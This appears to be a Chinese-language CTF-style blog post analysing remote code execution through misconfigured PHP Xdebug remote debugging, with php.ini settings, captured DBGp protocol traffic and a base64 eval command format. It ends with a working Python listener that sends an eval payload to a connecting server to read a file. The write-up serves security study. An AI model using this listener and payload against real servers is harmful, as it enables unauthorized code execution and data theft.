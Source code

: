 ```yaml
---
title: PHP Xdebug 远程调试命令执行分析
layout: post
category: [CTF]
tagline: 
show_reward: true
tags: [CTF, PHP, Xdebug]
---
```


[Xdebug](https://xdebug.org/) 是 PHP 的调试工具，为 PHP 脚本与调试器客户端提供了一个接口，使用 [DBGp](https://xdebug.org/docs-dbgp.php) 协议进行交互，使用的是 XML 格式的数据。在调试的时候，可以通过调试器在服务器上执行任意代码。通过 `phpinfo()` 可以查看 WebServer 上是否有开启 Xdebug，由于 Xdebug 支持远程调试，如果服务器上配置不当，可能引起远程任意命令执行。

![xdebug.jpg](/uploads/post_img/2017/09/xdebug.jpg "")

Xdebug 在 `php.ini` 中进行配置，比较关键参数有几项：

```ini
; 启用远程调试
xdebug.remote_enable=1
; 如果开启此项配置，将忽略 xdebug.remote_host 的参数
; 浏览器访问任意 php 页面时，服务器会以当前客户端 IP 作为 remote_host
xdebug.remote_connect_back=1
; 绑定远程调试主机地址
xdebug.remote_host=localhost
; 远程主机监听的端口
xdebug.remote_port=9000
```

PHP 允许动态识别是否启动调试，当访问任意 PHP 页面时，如果浏览器的 GET，POST，COOKIE 中包含 XDEBUG_SESSION_START 参数，且 php 开启了 xdebug 模块，则会与 remote_host 的调试端口通过 TCP 协议建立会话进行 debug 信息的交互。

## 数据流程

### 固定 IP 地址

xdebug.remote_connect_back=0 的情况，这也是 Xdebug 的默认方式。

![xdebug_1.jpg](/uploads/post_img/2017/09/xdebug_1.jpg "")

### 动态 IP 地址

xdebug.remote_connect_back=1 的情况

![xdebug_2.jpg](/uploads/post_img/2017/09/xdebug_2.jpg "")

## 实例分析

Chrome 中有一个 [Xdebug](https://chrome.google.com/webstore/detail/xdebug/nhodjblplijafdpjjfhhanfmchplpfgl?hl=en-GB&gl=GB) 插件，可以进行远程调试，[Github 地址](https://github.com/artbek/chrome-xdebug-client)。在Xdebug 插件中开启监听，访问服务端的任意 PHP 页面，带上 XDEBUG_SESSION_START 参数

```
http://192.168.1.10:8080/test.php?XDEBUG_SESSION_START=1
```

![xdebug_chrome.jpg](/uploads/post_img/2017/09/xdebug_chrome.jpg "")

Xdebug 插件可以接收到调试会话，然后可以在上面执行任意命令。通过抓包分析可以发现，调试会话的消息是通过 XML 进行交互，会话建立的时候，服务端会发送：

```xml
490.<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///D:/PHP/PHPStudy/WWW/phpinfo.php" language="PHP" xdebug:language_version="5.4.45" protocol_version="1.0" appid="4288" idekey="1"><engine version="2.4.1"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2016 by Derick Rethans]]></copyright></init>.
```

当在 xdebug 中执行 PHP 代码时，例如

```
print_r(file_get_contents('D:/1.txt'), true)
```

会发送这种格式的数据给 WebServer，`-i 63` 是会话编号，可以取任意的数字，后面是 php 代码的 base64，最后的 . 是 `\x00`。而且发送的数据包内容必须是 304 的倍数，多余的部分以 `\x00` 填充。

```
eval -i 63 -- cHJpbnRfcihmaWxlX2dldF9jb250ZW50cygnRDovMS50eHQnKSwgdHJ1ZSk=............................................................................
```

当服务端接收到调试器发送的命令后，会执行其中的 PHP 代码，并返回执行结果，这个过程会返回很多个 response，其中第一个 response 就是 PHP 代码的执行结果，同样是以 base64 编码。

```xml
260.<?xml version="1.0" encoding="iso-8859-1"?>
<response xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" command="eval" transaction_id="63"><property type="string" size="4" encoding="base64"><![CDATA[dGVzdA==]]></property></response>
```

分析了 Xdebug 调试的交互过程，可以写出一个脚本来执行任意命令。如果是在公网上的 PHP 网站，需要有一个公网 IP 才能实现远程调试，如果只有 Linux 的公网服务器可用，可以使用这个脚本来模拟这个过程。

```py
# encoding: utf-8

from socketserver import BaseRequestHandler, TCPServer
from base64 import b64encode

php_code = b"print_r(file_get_contents('D:/1.txt'), true)"
payload = b"""eval -i 105 -- %s""" % b64encode(php_code)
# 总长度是304的倍数
if len(payload) % 304 != 0:
    payload = payload + b'\x00' * (304 - len(payload) % 304)

count = 0
class EchoHandler(BaseRequestHandler):
    def handle(self):
        global count
        print('Got connection from', self.client_address)
        while True:
            msg = self.request.recv(8192)
            print(msg)
            if not msg:
                break
            if count == 0:
                self.request.send(payload)

            count += 1

if __name__ == '__main__':
    serv = TCPServer(('', 9000), EchoHandler)
    serv.serve_forever()
```

## 参考资料

- https://paper.seebug.org/308/
- https://weizhimiao.github.io/2016/10/22/Xdebug之远程调试/

